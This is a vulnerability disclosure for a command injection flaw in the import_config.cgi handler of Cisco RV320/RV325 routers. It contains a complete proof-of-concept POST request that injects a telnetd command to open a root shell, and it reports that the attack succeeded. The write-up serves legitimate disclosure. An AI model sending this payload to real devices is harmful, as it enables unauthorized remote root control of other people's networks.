

# Information

**Vendor of the products:**    Cisco

**Vendor's website:**    [https://www.cisco.com](https://www.cisco.com "https://www.cisco.com")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>)

**Affected products:**

Cisco RV320 Dual Gigabit WAN VPN Router

Cisco RV325 Dual Gigabit WAN VPN Router

**Affected firmware version:**

1.5.1.13 (the latest release version)

**Firmware download address:** 

[https://software.cisco.com/download/home/284005936/type/282465789/release/1.5.1.13](https://software.cisco.com/download/home/284005936/type/282465789/release/1.5.1.13 "https://software.cisco.com/download/home/284005936/type/282465789/release/1.5.1.13")

# Overview

`Cisco RV32x Series VPN Routers` were detected with a `command injection vulnerability`. The vulnerability is caused by lax verification of user input. An authenticated attacker can send crafted requests to the web-based management interface. Successful exploits could allow the attacker to execute arbitrary commands on remote devices.

# Vulnerability details

The vulnerability was detected in the **`/usr/local/EasyAccess/www/cgi-bin/import_config.cgi`** binary.

In the `main` function. The first two fields of form-data in the body of the POST request message are read through two sets of `fgets` functions (each reading four lines, as a field of form-data). When the first field of form-data is `1`, the content of the second field after the `;` is concatenated into the `acStack1144` variable and passed to the `upgradefromusb` function as an argument.


In the `upgradefromusb` function. First, use `FUN_120003860` here to add `\` before `(` and `)` in the contents of the passed argument (no effect on the exploitation). The processed content is then concatenated directly into the `acStack808` variable and executed as a parameter for `system` without any checks.



Above all, here is a `remote command execution` vulnerability. The attacker can inject arbitrary commands after the `;` in the second field of form-data in the body of the POST request message and execute them.

# Poc

Send the following `POST` request message (use `${IFS}` instead of Spaces).

```
POST /cgi-bin/import_config.cgi HTTP/1.1
Host: 192.168.1.1
Cookie: mlap=ZfRSjTJvVhNsYLzAUrxDcg==
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------16897455311731203775484527323
Content-Length: 330
Origin: https://192.168.1.1
Referer: https://192.168.1.1/sys_setting.htm
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------16897455311731203775484527323
Content-Disposition: form-data; name="submitrestoreconfig"

1
-----------------------------16897455311731203775484527323
Content-Disposition: form-data; name="USBconfigfile"

USB1;;telnetd${IFS}-l${IFS}/bin/sh;
-----------------------------16897455311731203775484527323--
```

# Attack Demo

Follow the POC above to make the request.


After the attack is completed, we successfully logged into the device remotely and got the `root shell` of the device.


